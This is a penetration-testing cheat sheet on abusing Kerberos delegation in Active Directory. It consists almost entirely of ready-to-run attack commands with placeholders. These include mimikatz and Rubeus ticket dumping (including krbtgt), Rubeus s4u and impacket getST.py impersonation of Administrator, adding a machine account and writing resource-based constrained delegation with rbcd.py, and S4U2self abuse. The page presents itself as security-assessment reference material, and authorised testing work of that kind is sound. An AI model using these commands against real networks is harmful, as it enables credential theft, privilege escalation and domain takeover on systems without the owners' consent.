 ```yaml
---
title: "Kerberos Delegation"
description: "Kerberos Delegation techniques and commands for Active Directory security assessment."
---
```

# Kerberos Delegation
## Find delegation
- `findDelegation.py "<domain>"/"<user>":"<password>"`
- With BloodHound
  - Unconstrained
    - `MATCH (c:Computer {unconstraineddelegation:true}) RETURN c`
    - `MATCH (c:User {unconstraineddelegation:true}) RETURN c`
  - Constrained
    - `MATCH p=((c:Base)-[:AllowedToDelegate]->(t:Computer)) RETURN p`
    - `MATCH p=shortestPath((u:User)-[*1..]->(c:Computer {name: "<MYTARGET.FQDN>"})) RETURN p`

## Unconstrained delegation *Kerberos TGT*{: .highlight} *PassTheTicket*{: .highlight}
- UAC: ADS_UF_TRUSTED_FOR_DELEGATION
  - Force connection  with coerce
    - Get tickets 
      - `mimikatz privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export`
      - `Rubeus.exe dump /service:krbtgt /nowrap`
      - `Rubeus.exe dump /luid:0xdeadbeef /nowrap`
      - `Rubeus.exe monitor /interval:5`

## Constrained delegation
- With protocol transition (any) UAC: TRUST_TO_AUTH_FOR_DELEGATION
  - Get TGT for user
    - Request S4u2self
      - Request S4u2proxy
  - `Rubeus.exe hash /password:<password>`
    - `Rubeus.exe asktgt /user:<user> /domain:<domain> /aes256:<AES 256 hash>`
      - `Rubeus.exe s4u /ticket:<ticket> /impersonateuser:<admin_user> /msdsspn:<spn_constrained> /altservice:<altservice> /ptt`
        - Altservice HTTP/HOST/CIFS/LDAP *Kerberos TGS*{: .highlight}
  - `getST.py -spn '<spn>/<target>' -impersonate Administrator -dc-ip '<dc_ip>' '<domain>/<user>:<password>' -altservice <altservice>`
    - Altservice HTTP/HOST/CIFS/LDAP *Kerberos TGS*{: .highlight}

- Without protocol transition (kerberos only) UAC: TRUSTED_FOR_DELEGATION
  - Constrain between Y and Z
    - Add computer X
      - Add RBCD : delegate from X to Y
        - s4u2self X (impersonate admin)
          - S4u2Proxy X (impersonate admin on spn/Y)
            - Forwardable TGS for Y
              - S4u2Proxy Y (impersonate admin on spn/Z) 
  - add computer account
    - `addcomputer.py -computer-name '<computer_name>' -computer-pass '<ComputerPassword>' -dc-host <dc> -domain-netbios <domain_netbios> '<domain>/<user>:<password>'`
  - RBCD With added computer account *Kerberos TGS*{: .highlight}
    - `rbcd.py -delegate-from '<rbcd_con>$' -delegate-to '<constrained>$' -dc-ip '<dc>' -action 'write' -hashes '<hash>' <domain>/<constrained>$`
      - `getST.py -spn host/<constrained> -impersonate Administrator --dc-ip <dc_ip> '<domain>/<rbcd_con>$:<rbcd_conpass>'`
        - `getST.py -spn <constrained_spn>/<target> -hashes '<hash>' '<domain>/<constrained>$' -impersonate Administrator --dc-ip <dc_ip> -additional-ticket <previous_ticket>`
  - Self RBCD @CVE@
    - Like RBCD without add computer

## Resource-Based Constrained Delegation
- add computer account
  - `addcomputer.py -computer-name '<computer_name>' -computer-pass '<ComputerPassword>' -dc-host <dc> -domain-netbios <domain_netbios> '<domain>/<user>:<password>'`
- RBCD With added computer account
  - `Rubeus.exe hash /password:<computer_pass> /user:<computer> /domain:<domain>`
    - `Rubeus.exe s4u /user:<fake_computer$> /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/<victim.domain.local> /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt` *Admin*{: .highlight}
  - `rbcd.py -delegate-from '<computer>$' -delegate-to '<target>$' -dc-ip '<dc>' -action 'write' <domain>/<user>:<password>`
    - `getST.py -spn host/<dc_fqdn> '<domain>/<computer_account>:<computer_pass>' -impersonate Administrator --dc-ip <dc_ip>` *Kerberos TGT*{: .highlight} *Admin*{: .highlight}

## S4U2self abuse
- Get machine account (X)'s TGT
  - Get a ST on X as user admin
- `getTGT.py -dc-ip "<dc_ip>" -hashes :"<machine_hash>" "<domain>"/"<machine>$"`
  - `getST.py -self -impersonate "<admin>" -altservice "cifs/<machine>" -k -no-pass -dc-ip "DomainController" "<domain>"/'<machine>$'` *Admin*{: .highlight}